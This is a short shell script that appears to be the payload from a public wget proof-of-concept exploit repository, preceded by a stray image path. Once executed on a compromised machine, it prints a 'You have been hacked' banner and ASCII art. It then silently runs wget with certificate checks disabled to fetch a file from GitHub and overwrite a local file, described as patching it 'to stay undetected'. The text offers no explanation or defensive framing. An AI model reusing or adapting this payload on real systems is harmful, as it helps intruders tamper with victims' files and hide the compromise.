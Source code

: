 echo
echo "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"
echo "!      You have been hacked               !" 
echo "!                                         !"
echo "! https://github.com/markus-perl/wget-pwn !"
echo "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"

echo "
_____.___.             .__   ._._.
\__  |   | ____ _____  |  |__| | |
 /   |   |/ __ \\__  \ |  |  \ | |
 \____   \  ___/ / __ \|   Y  \|\|
 / ______|\___  >____  /___|  /___
 \/           \/     \/     \/\/\/
 "

printf "Patching downloaded file to stay undetected ... "
wget --no-check-certificate --quiet "https://raw.githubusercontent.com/markus-perl/wget-pwn/master/README.md" -O README.md 
printf "Done\n"
